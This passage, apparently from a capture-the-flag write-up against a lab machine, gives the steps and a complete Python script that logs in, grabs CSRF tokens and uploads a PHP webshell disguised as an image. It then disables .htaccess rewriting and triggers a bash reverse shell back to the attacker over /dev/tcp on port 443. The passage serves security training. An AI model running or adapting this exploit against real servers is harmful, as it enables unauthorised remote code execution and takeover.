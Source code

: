 My script will take the following steps:

1.  Login.
2.  Get a CSRF token from the uploads page.
3.  Upload the webshell as a file. Server will say it fails, but copy will still be saved in .`.php``/bl-content/tmp`
4.  Upload file that turns off .`.htaccess``RewriteEngine`
5.  Trigger webshell with reverse shell on port 443.

My script is:

    #!/usr/bin/env python3
    
    import netifaces as ni
    import re
    import requests
    
    
    callback_ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
    username = 'fergus'
    password = 'RolandDeschain'
    url = 'http://10.10.10.191'
    
    
    s = requests.session()
    
    # Login
    resp = s.get(f'{url}/admin/')
    csrf = re.findall('name="tokenCSRF" value="([0-9a-f]{32,})"', resp.text)[0]
    s.post(f'{url}/admin/', allow_redirects=False,
            data = {'tokenCSRF': csrf, 'username': username, 'password': password, 'remember': 'true', 'save': ''})
    
    # Get CSRF to upload images
    resp = s.get(f'{url}/admin/new-content/index.php')
    csrf = re.findall('\nvar tokenCSRF = "([0-9a-f]{32,})";', resp.text)[0]
    
    # Upload webshell
    form_data = {'images[]': ('0xdf.php', '<?php system($_REQUEST["cmd"]); ?>', 'image/png')}
    data = {'uuid': 'junk',
            'tokenCSRF': csrf}
    s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)
    
    # Upload .htaccess file
    form_data = {'images[]': ('.htaccess', 'RewriteEngine off', 'image/png')}
    s.post(f'{url}/admin/ajax/upload-images', data=data, files=form_data, proxies={'http':'http://127.0.0.1:8080'}, allow_redirects=False)
    
    # Trigger Shell
    resp = s.get(f'{url}/bl-content/tmp/0xdf.php', params={'cmd':f'bash -c "bash -i >& /dev/tcp/{callback_ip}/443 0>&1"'})
    